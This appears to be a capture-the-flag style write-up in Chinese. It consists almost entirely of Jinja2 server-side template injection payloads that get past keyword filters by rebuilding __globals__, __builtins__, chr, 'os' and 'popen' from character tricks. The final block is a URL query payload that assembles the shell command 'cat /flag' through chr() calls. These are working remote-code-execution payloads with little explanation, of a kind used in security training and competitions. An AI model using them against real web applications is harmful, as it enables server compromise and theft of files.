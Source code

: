 ```  
    {%set one=dict(c=a)|join|count%}
    {%set two=dict(cc=a)|join|count%}
    {%set three=dict(ccc=a)|join|count%}
    {%set four=dict(cccc=a)|join|count%}
    {%set five=dict(ccccc=a)|join|count%}
    {%set six=dict(cccccc=a)|join|count%}
    {%set seven=dict(ccccccc=a)|join|count%}
    {%set eight=dict(cccccccc=a)|join|count%}
    {%set nine=dict(ccccccccc=a)|join|count%}
    {%set pop=dict(pop=a)|join%}
    {%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
    {%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
    {%set get=dict(get=a)|join%}
    {%set shell=dict(o=a,s=b)|join%}
    {%set pp=dict(po=a,pen=b)|join%}
    {%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
    {%print builtins%}
```
获取chr

```     
    {%set one=dict(c=a)|join|count%}
    {%set two=dict(cc=a)|join|count%}
    {%set three=dict(ccc=a)|join|count%}
    {%set four=dict(cccc=a)|join|count%}
    {%set five=dict(ccccc=a)|join|count%}
    {%set six=dict(cccccc=a)|join|count%}
    {%set seven=dict(ccccccc=a)|join|count%}
    {%set eight=dict(cccccccc=a)|join|count%}
    {%set nine=dict(ccccccccc=a)|join|count%}
    {%set pop=dict(pop=a)|join%}
    {%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
    {%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
    {%set get=dict(get=a)|join%}
    {%set shell=dict(o=a,s=b)|join%}
    {%set pp=dict(po=a,pen=b)|join%}
    {%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
    {%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(dict(chr=a)|join)%}
    {%print char%}


```

然后拼接获得命令
```

?name={%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set%20get=dict(get=a)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(dict(chr=a)|join)%}
{%set command=char(five*five*four-one)%2bchar(five*five*four-three)%2bchar(four*five*six-four)%2bchar(four*eight)%2bchar(six*eight-one)%2bchar(three*six*six-six)%2bchar(three*six*six)%2bchar(five*five*four-three)%2bchar(three*six*six-five)%}
```